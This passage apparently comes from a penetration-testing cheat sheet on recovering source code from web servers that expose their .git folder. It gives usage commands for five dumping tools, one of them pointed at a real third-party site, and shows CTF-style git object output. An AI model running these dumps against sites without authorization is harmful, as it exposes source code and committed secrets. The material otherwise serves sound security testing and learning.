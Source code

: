 ### Tools

#### Automatic recovery

##### diggit.py

```powershell
./diggit.py -u remote_git_repo -t temp_folder -o object_hash [-r=True]
./diggit.py -u http://webpage.com -t /path/to/temp/folder/ -o d60fbeed6db32865a1f01bb9e485755f085f51c1

-u is remote path, where .git folder exists
-t is path to local folder with dummy Git repository and where blob content (files) are saved with their real names (cd /path/to/temp/folder && git init)
-o is a hash of particular Git object to download
```

##### GoGitDumper

```powershell
go get github.com/c-sto/gogitdumper
gogitdumper -u http://urlhere.com/.git/ -o yourdecideddir/.git/
git log
git checkout
```

##### rip-git

```powershell
git clone https://github.com/kost/dvcs-ripper
perl rip-git.pl -v -u "http://web.site/.git/"

git cat-file -p 07603070376d63d911f608120eb4b5489b507692  
tree 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
parent 15ca375e54f056a576905b41a417b413c57df6eb
author Michael <michael@easyctf.com> 1489389105 +0000
committer Michael <michael@easyctf.com> 1489389105 +0000

git cat-file -p 5dae937a49acc7c2668f5bcde2a9fd07fc382fe2
```

##### GitHack

```powershell
git clone https://github.com/lijiejie/GitHack
GitHack.py http://www.openssl.org/.git/
```

##### GitTools

```powershell
git clone https://github.com/internetwache/GitTools
./gitdumper.sh http://target.tld/.git/ /tmp/destdir
git checkout -- .
```
